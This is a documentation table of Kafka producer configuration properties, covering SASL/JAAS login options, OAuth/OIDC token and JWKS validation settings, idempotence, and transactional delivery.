| sasl.jaas.config | JAAS login context parameters for SASL connections in the format used by JAAS configuration files. JAAS configuration file format is described <a href="http://docs.oracle.com/javase/8/docs/technotes/guides/security/jgss/tutorials/LoginConfigFile.html">here</a>. The format for the value is: <code>loginModuleClass controlFlag (optionName=optionValue)*;</code>. For brokers, the config must be prefixed with listener prefix and SASL mechanism name in lower-case. For example, listener.name.sasl_ssl.scram-sha-256.sasl.jaas.config=com.example.ScramLoginModule required; | 
| sasl.client.callback.handler.class | The fully qualified name of a SASL client callback handler class that implements the AuthenticateCallbackHandler interface. | 
| sasl.login.callback.handler.class | The fully qualified name of a SASL login callback handler class that implements the AuthenticateCallbackHandler interface. For brokers, login callback handler config must be prefixed with listener prefix and SASL mechanism name in lower-case. For example, listener.name.sasl_ssl.scram-sha-256.sasl.login.callback.handler.class=com.example.CustomScramLoginCallbackHandler | 
| sasl.login.class | The fully qualified name of a class that implements the Login interface. For brokers, login config must be prefixed with listener prefix and SASL mechanism name in lower-case. For example, listener.name.sasl_ssl.scram-sha-256.sasl.login.class=com.example.CustomScramLogin | 
| sasl.login.connect.timeout.ms | The (optional) value in milliseconds for the external authentication provider connection timeout. Currently applies only to OAUTHBEARER. | 
| sasl.login.read.timeout.ms | The (optional) value in milliseconds for the external authentication provider read timeout. Currently applies only to OAUTHBEARER. | 
| sasl.login.retry.backoff.max.ms | The (optional) value in milliseconds for the maximum wait between login attempts to the external authentication provider. Login uses an exponential backoff algorithm with an initial wait based on the sasl.login.retry.backoff.ms setting and will double in wait length between attempts up to a maximum wait length specified by the sasl.login.retry.backoff.max.ms setting. Currently applies only to OAUTHBEARER. | 
| sasl.login.retry.backoff.ms | The (optional) value in milliseconds for the initial wait between login attempts to the external authentication provider. Login uses an exponential backoff algorithm with an initial wait based on the sasl.login.retry.backoff.ms setting and will double in wait length between attempts up to a maximum wait length specified by the sasl.login.retry.backoff.max.ms setting. Currently applies only to OAUTHBEARER. | 
| sasl.oauthbearer.scope.claim.name | The OAuth claim for the scope is often named "scope", but this (optional) setting can provide a different name to use for the scope included in the JWT payload's claims if the OAuth/OIDC provider uses a different name for that claim. | 
| sasl.oauthbearer.sub.claim.name | The OAuth claim for the subject is often named "sub", but this (optional) setting can provide a different name to use for the subject included in the JWT payload's claims if the OAuth/OIDC provider uses a different name for that claim. | 
| sasl.oauthbearer.token.endpoint.url | The URL for the OAuth/OIDC identity provider. If the URL is HTTP(S)-based, it is the issuer's token endpoint URL to which requests will be made to login based on the configuration in sasl.jaas.config. If the URL is file-based, it specifies a file containing an access token (in JWT serialized form) issued by the OAuth/OIDC identity provider to use for authorization. | 
| sasl.oauthbearer.jwks.endpoint.url | The OAuth/OIDC provider URL from which the provider's <a href="https://datatracker.ietf.org/doc/html/rfc7517#section-5">JWKS (JSON Web Key Set)</a> can be retrieved. The URL can be HTTP(S)-based or file-based. If the URL is HTTP(S)-based, the JWKS data will be retrieved from the OAuth/OIDC provider via the configured URL on broker startup. All then-current keys will be cached on the broker for incoming requests. If an authentication request is received for a JWT that includes a "kid" header claim value that isn't yet in the cache, the JWKS endpoint will be queried again on demand. However, the broker polls the URL every sasl.oauthbearer.jwks.endpoint.refresh.ms milliseconds to refresh the cache with any forthcoming keys before any JWT requests that include them are received. If the URL is file-based, the broker will load the JWKS file from a configured location on startup. In the event that the JWT includes a "kid" header value that isn't in the JWKS file, the broker will reject the JWT and authentication will fail. | 
| sasl.oauthbearer.jwks.endpoint.refresh.ms | The (optional) value in milliseconds for the broker to wait between refreshing its JWKS (JSON Web Key Set) cache that contains the keys to verify the signature of the JWT. | 
| sasl.oauthbearer.jwks.endpoint.retry.backoff.max.ms | The (optional) value in milliseconds for the maximum wait between attempts to retrieve the JWKS (JSON Web Key Set) from the external authentication provider. JWKS retrieval uses an exponential backoff algorithm with an initial wait based on the sasl.oauthbearer.jwks.endpoint.retry.backoff.ms setting and will double in wait length between attempts up to a maximum wait length specified by the sasl.oauthbearer.jwks.endpoint.retry.backoff.max.ms setting. | 
| sasl.oauthbearer.jwks.endpoint.retry.backoff.ms | The (optional) value in milliseconds for the initial wait between JWKS (JSON Web Key Set) retrieval attempts from the external authentication provider. JWKS retrieval uses an exponential backoff algorithm with an initial wait based on the sasl.oauthbearer.jwks.endpoint.retry.backoff.ms setting and will double in wait length between attempts up to a maximum wait length specified by the sasl.oauthbearer.jwks.endpoint.retry.backoff.max.ms setting. | 
| sasl.oauthbearer.clock.skew.seconds | The (optional) value in seconds to allow for differences between the time of the OAuth/OIDC identity provider and the broker. | 
| sasl.oauthbearer.expected.audience | The (optional) comma-delimited setting for the broker to use to verify that the JWT was issued for one of the expected audiences. The JWT will be inspected for the standard OAuth "aud" claim and if this value is set, the broker will match the value from JWT's "aud" claim  to see if there is an exact match. If there is no match, the broker will reject the JWT and authentication will fail. | 
| sasl.oauthbearer.expected.issuer | The (optional) setting for the broker to use to verify that the JWT was created by the expected issuer. The JWT will be inspected for the standard OAuth "iss" claim and if this value is set, the broker will match it exactly against what is in the JWT's "iss" claim. If there is no match, the broker will reject the JWT and authentication will fail. | 
| enable.idempotence | When set to 'true', the producer will ensure that exactly one copy of each message is written in the stream. If 'false', producer retries due to broker failures, etc., may write duplicates of the retried message in the stream. Note that enabling idempotence requires <code>max.in.flight.requests.per.connection</code> to be less than or equal to 5 (with message ordering preserved for any allowable value), <code>retries</code> to be greater than 0, and <code>acks</code> must be 'all'. <p>Idempotence is enabled by default if no conflicting configurations are set. If conflicting configurations are set and idempotence is not explicitly enabled, idempotence is disabled. If idempotence is explicitly enabled and conflicting configurations are set, a <code>ConfigException</code> is thrown. | 
| transaction.timeout.ms | The maximum amount of time in ms that the transaction coordinator will wait for a transaction status update from the producer before proactively aborting the ongoing transaction.If this value is larger than the transaction.max.timeout.ms setting in the broker, the request will fail with a <code>InvalidTxnTimeoutException</code> error. | 
| transactional.id | The TransactionalId to use for transactional delivery. This enables reliability semantics which span multiple producer sessions since it allows the client to guarantee that transactions using the same TransactionalId have been completed prior to starting any new transactions. If no TransactionalId is provided, then the producer is limited to idempotent delivery. If a TransactionalId is configured, <code>enable.idempotence</code> is implied. By default the TransactionId is not configured, which means transactions cannot be used. Note that, by default, transactions require a cluster of at least three brokers which is the recommended setting for production; for development you can change this, by adjusting broker setting <code>transaction.state.log.replication.factor</code>. | 

</details>